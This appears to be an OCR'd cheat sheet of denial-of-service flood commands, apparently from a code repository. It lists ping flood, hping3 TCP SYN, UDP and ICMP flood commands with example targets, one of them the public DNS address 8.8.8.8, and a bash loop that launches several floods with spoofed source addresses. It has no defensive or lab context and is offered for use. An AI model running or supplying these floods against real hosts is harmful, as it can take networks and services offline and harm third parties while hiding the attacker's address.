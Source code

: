 **ICMP PING PACKET**

command
sudo ping -f -s 65500 8.8.8.8

example
sudo ping -f -s 65500 192.168.1.10


**TCP Syn Flood Packet**

command
sudo hping3 -S -p <port> --flood <target_IP>

example
sudo hping3 -S -p 80 --flood 192.168.1.10


**UDP Flood Packet**

command
sudo hping3 --udp -p <port> --flood <target_IP>

example
sudo hping3 --udp -p 53 --flood 192.168.1.10


**Raw IP Flood Traffic**

command
sudo hping3 -1 --flood <target_IP>

example
sudo hping3 -1 --flood 192.168.1.10


**For multiple flood Attack**

for ip in 192.168.1.{100..110}; do
    sudo hping3 -1 --flood -a $ip <target_IP> &
done







